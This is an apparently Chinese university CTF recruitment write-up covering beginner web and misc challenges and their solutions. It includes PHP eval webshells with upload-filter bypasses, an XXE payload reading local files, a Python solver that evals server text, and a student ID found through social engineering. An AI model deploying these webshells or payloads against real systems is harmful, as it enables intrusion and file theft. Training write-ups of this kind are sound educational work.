# S3cCTF-gyy-Writeup

**出题人：gyy**


**写在前面：**

本次招新赛我主要负责WEB方面的出题，当然兼顾一些MISC，本着简单易懂的原则，刚开始出了很多简单WEB题，但是这届新生的实力明显比我们当时强= =，后期又赶了一些提升题，当然和真正的CTF比赛还是有非常大的距离，例如在群里放出的周六的题目可以看出。所以，这些只是入门CTF的基础，去年的这时，我们参加的招新比赛比今年更加困难（所以今年我有同感地出了不少简单题），我希望大家不要止步于此，当初我也有一腔热血，觉得CTF不过如此（甚至还想双修）。但，走的越高，越会发现自己越渺小，这条道路可能还没有尽头。技术可以后期培养，这次招新比赛分数也只能作为检测基础的测试，如果你有强烈的意向和兴趣，比比赛成绩更为重要，我们欢迎你和我们联系，希望大家不忘初心，砥砺前行。

# WEB


## How_to_solve_ctf

### 出题解析

本题旨在指引大家，考了一下HTML的知识

### 解题方式

F12查看源代码，给了提示`<!-- html元素是可以修改的 -->`
修改form表单里input文本框的长度限制，提交s3c2020即可获得flag
由于是GET传参，也可以直接传`key=s3c2020`即可


----

## nof12

### 出题解析

本题利用script限制了鼠标右键和f12

### 解题方式

与题目 **S3C_NOT_BAD** 重复，Ctrl+U或者burp抓包或者curl访问都可



---

## Local

### 出题解析

本题旨在考XFF（X-Forwarded-For）和Referer
伪造地址三种方式：

```
Client-Ip: 127.0.0.1
X-Forwarded-For: 127.0.0.1
Host: 127.0.0.1
Referer: 127.0.0.1
```

### 解题方式

只有本地管理员才能访问本页面！
burp抓包修改即可


----

## Flag not found

### 出题解析

302重定向

```php
//flag.php
<?php 
header('Flag: '.base64_encode("s3c{0H_mY_g0d_its_4O4}")); //修改 X-Powered-By信息
header('location:404.php');
?>
```

```php
//404.php
<h1>Not Found</h1>
<!-- 才怪 -->
<?php 
	@header("http/1.1 404 not found"); 
	@header("status: 404 not found"); 
	echo "<p>The requested URL /flag.php was not found on this server.</p>";
	exit(); 
?>
```

### 解题方式

打开点击后跳转Not Found，仔细看发现界面是伪造的

因为界面是我自己写的假界面，特意写了个注释，由此想到重定向
直接在header里能看到flag

拿去base64解一下即可获得flag


----

## 快速计算

### 出题解析

本题考查PHP和Python脚本，3秒内...有人能做得到嘛？


本题网上找一个脚本改改完全没问题，其实还有一题计算字符串（原创题目前网上没有脚本），师傅们说不放就没放啦，有兴趣可以做做 [题目链接](http://49.234.89.193:8088/)(链接可能会挂，题目随时可能哪天我就关了...)

### 解题方式

请在3秒内计算以下算式并提交并提交
在服务器设的SESSION，3秒刷新，超时也是不算的
设了个小坑，抓个包可以看到，每次提交的请求还有个参数`submits=提交`

如果没有就会die退出

```php
if(!isset($_POST['submits']))
        die("少了点东西啊...好好看看吧");
```

最后放出Payload，师傅们可以自己研究

```python
# -*- coding: utf-8 -*-
"""
@Time ： 2020/11/22 18:14
@Auth ： gyy
@File ：1.py
@Blog：http://err0r.top

"""
import requests

url = "http://49.234.89.193:8029/"

session = requests.session()

data = {
    "submits" : "提交"
}

response = session.get(url).content.decode('utf-8')

print("1--------------------取算式")
cal = response.replace(" " , "").replace("\n" , "").replace("\r" , "").split("<b>")[1].split("=")[0]

print(cal)
print("2--------------------计算算式")

result = eval(cal)
print(result)

print("3--------------------提交")
data['answer'] = result

res = session.post(url, data= data)

print(res).content.decode('utf-8')

```


本人蹩脚自学的python，语法规范问题请见谅

---

## Vim

### 出题解析

本题考察Linux下Vim的应用，同时考察PHP代码审计及robots协议

给了hint：vim强退会在当前目录生成生成备份文件

### 解题方式

打开先看源代码

Recover
Linux中，如果vim强退的话（ctrl+z）就会在目录下生成备份文件，如图所示

而再vim编辑就会有如下提示

直接Recover恢复即可。

根据提示，访问./.index.php.swp。发现下载.swp文件
这里注意，备份文件是隐藏文件，文件名前面有个点
拿去linux系统恢复，可以发现

由此，flag分为多部分
接下来代码审计很简单，回到index.php，POST传参

```php
username=admin&pazzword=a599ac85a73384ee3219fa684296eaa62667238d608efa81837030bd1ce1bf04
```


机器人会告诉你剩下的，联想robots协议，访问./robots.txt

可得flag在./r/o/b/o/a/t/s/1.php

将三段flag组合即可

---

## Upload

### 出题解析

本题考察文件上传，考察上传绕过的姿势，因为比赛限制，没有出太难的过滤

### 解题方式

当然，不是真的让你上传个动图。。我服务器里发现了好多奇奇怪怪的图片
一般文件上传一句话木马直接获取shell
`<?php @eval($_POST[gyy])?>`
需要能被php解析才行，.txt,.gif都是不可被解析的
或者直接用script标签
`<script language='php'>@eval($_POST[gyy]);</script>`
后缀名限制

上传普通图片，被过滤

抓包上传,原始如下

修改如下



请求头检查：content-type，MIME类型限制，修改为`image/gif`
文件后缀绕过：只要能被php解析的文件名就可以
这里我只限制了`.php`,`.php3`,`.php4`,`.php5`
MIME类型限制只允许`image/gif`

然后访问文件

发现代码被执行了，直接蚁剑连上get shell

根目录发现flag



你们真的传了一堆堆奇奇怪怪的图片。。。


----

## XML External Entity

### 出题解析

考察XXE注入，即 XML实体注入

### 解题方式

打开直接给phpinfo，源代码有提示

底部发现

其实是执行了`system("ls");`

然后每个文件都高亮了语法，`dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞，具体输出点请阅读这三个文件的代码。存在的XXE漏洞具体可以百度研究一下。
样例Payload：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]>
<root>
<name>&xxe;</name>
</root>
```


其实还可以利用写入一句话木马等操作。

---


# MISC


## 信息搜索

### 出题解析

信息搜索也是门技术，好好利用搜索引擎可以达到事半功倍的效果.
确实，只要仔细搜索，没有任何问题

### 解题方式

打开五道题，一道道解决

#### 1.截至2020年10月31日，RFC最新的正式文档编号是多少?

RFC文档，Request For Comments，官网连*科学上网*都不需要

访问`https://www.ietf.org/`

或者直接访问RFC文档搜索网站`https://www.rfc-editor.org/search/rfc_search.php`



截至2020年10月31日，一查

最新为RFC8940
这种东西最标准还是去官网查

#### 2.国家网络安全宣传周第一届是在哪一年举行的？

2014


#### 3. 本校校园卡上对应的教学楼是主校区的几号教学楼？

拿出来看看...百度地图打开，

全景地图

有点老，仔细观察地图，只有1教有那么大地方，2教3教都不会有那么大的中央空地
good

#### 4. S3C战队代表学校在第十三届全国大学生信息安全创新实践能力赛总决赛上取得了多少名的成绩？

33
招新PPT上写的，学校公众号也能查到

#### 5. 截至目前最新的C语言标准是C多少？

18
C标准以年号结尾命名，有人问为什么不是C99,C11....我只能说，现在最新的是C18，百度好好查查吧...（2年了）

全部答对给flag，不行爆破也行


---


## myid

### 出题解析

社工大佬，怕了怕了

### 解题方式

原本考爆破的，后来干脆直接你们社工算了...

打开去掉disable标签

下面提示

原来想考爆破，最后都知道了...id是我学号，直接开始社工，索性改分类为MISC。
再给个hint：`计算机院 2019 懂？`
首先2019级即前5位为`12019`
计算机院为050-055(大概）
所以前八位`1201905x`，爆破一下就好了。
当然也有问学长学姐的，问墙的，翻我空间的，查学校名册的，都可以。这题就当玩玩233333
ID:12019054018


---


## flag.jpg


### 出题解析

考察工具利用以及查看属性

### 解题方式

小戈:give me a flag 一看属性竟然用 SteganPEG 而且还没那么简单

提示很明显，用软件 SteganPEG ，密码就是`givemeaflag`（生怕你们看不见），其实正规地方在文件的属性里

软件读文件

拖出来打开就是flag

---

## Manchester


### 出题解析

考察 学习理解能力 百度曼彻斯特编码

### 解题方式

大白话解释：低电平是0，高电平是1。
曼彻斯特编码`01->1` `10->0`
当时出这题用的C写的，蹩脚的东西看看就好...

```c
#include <stdio.h>

int main()
{
	FILE *fp;
	fp=fopen("code","r");
	int i=0;
	char a1,a2;
	do
	{
		a1=fgetc(fp);
		a2=fgetc(fp);
		if(a1=='0'&&a2=='1')
			printf("1");
		if(a1=='1'&&a2=='0')
			printf("0");
	}while(a1&&a2);
	putchar('\n');
	fclose(fp);
	return 0;
 } 
```

得到`011100110011001101100011011110110100110101100001011011100100001101101000010001010111001101110100011001010111001001011111011101110011000101110100011010000101111100110000001100010011000001111101`
复制去二进制转字符，直接出答案


---

## SlientEye


### 出题解析

水题，考察知识面，和搜索...

### 解题方式

真的水题，搜索标题`SlientEye`，是的，这是个软件
默认设置解密，直接出答案


---

## Plaintext


### 出题解析

写的很清楚，明文攻击
给了hint，暗示伪加密
开赛题坚持了这么久我没想到...

### 解题方式

打开发现压缩包三文件全加密，压缩包里的注释

```
亲眼所见，亦非真实
也许是虚伪的，也许需要AZPR

```

明示软件AZPR，这是个爆破软件
伪加密百度有一篇很详细的文章
修改加密位为`00`，不知道哪个文件是伪加密直接所有加密位为`00`

保存后解压只有副本那个文件可以保存，其他两个文件是真加密

根据明文攻击方法，将这个文件打包zip然后去题目再下一遍原文件,此时文件被修改，也可以改回去

用AZPR选择明文攻击即可


可以看到密钥被恢复了，不用找密码了，直接可以保存

保存文件，其实已经破解出来了

或者用rbkcrack也可以
直接打开flag.txt得flag